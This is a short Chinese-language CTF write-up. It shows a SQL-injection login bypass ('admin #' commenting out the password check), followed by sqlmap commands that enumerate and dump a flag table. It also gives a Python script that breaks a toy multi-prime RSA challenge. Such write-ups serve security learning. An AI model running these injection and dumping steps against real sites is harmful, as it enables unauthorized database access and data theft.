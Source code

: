 

### fakelogin1

1. 网上搜到各种绕过方法，都试了一下。发现加'#'有用。原来#后的字符串都会被当成注释来处理。

2. 所以输入“admin #”成功登陆。登陆之后试了下id，发现是动态的。

3. 然后用sqlmap扫描。

   ```python
   sqlmap.py -r "C:\Users\TOPSECTET\Desktop\fakelogin1" --dbs
   
   sqlmap.py -r "C:\Users\Desktop\fakelogin1" -D fakelogin1 -T fffflllaaaaagggggg369 --columns
   
   sqlmap.py" -r "C:\Users\TOPSECRET\Desktop\fakelogin1" -D fakelogin1 -T fffflllaaaaagggggg369 -C flagcolcol --dump
   ```


得到flag



![qiniu.vistazx1.top](http://qiniu.vistazx1.top/ctffakelogin1-2.PNG)

## Crpyto

### Toddler RSA

http://factordb.com/index.php?query=35916913381799169598047392904148491391161620899816360736005775761561238969291

用factordb分解N，发现分解出多个素数。到网上搜索，发现RSA支持多个素数(Multi prime RSA)。

计算d的方式也是一样的。

```python
import gmpy2
import codecs

n = 35916913381799169598047392904148491391161620899816360736005775761561238969291
e = 257
c = 8475628327993429564462830126573767419742875741767715368947653567552147606198

# N分解为多个素数
p1 = 10390947166040840011
p2 = 11644261463999014129
p3 = 16998750717539055911
p4 = 17462841690525028999

phin = (p1 - 1) * (p2 - 1) * (p3 - 1) * (p4 - 1)

d = gmpy2.invert(e, phin)
p = gmpy2.powmod(c, d, n)

m = pow(c, d, n)
print(hex(m))
print(codecs.decode(str(hex(m)[2:]), 'hex'))
```

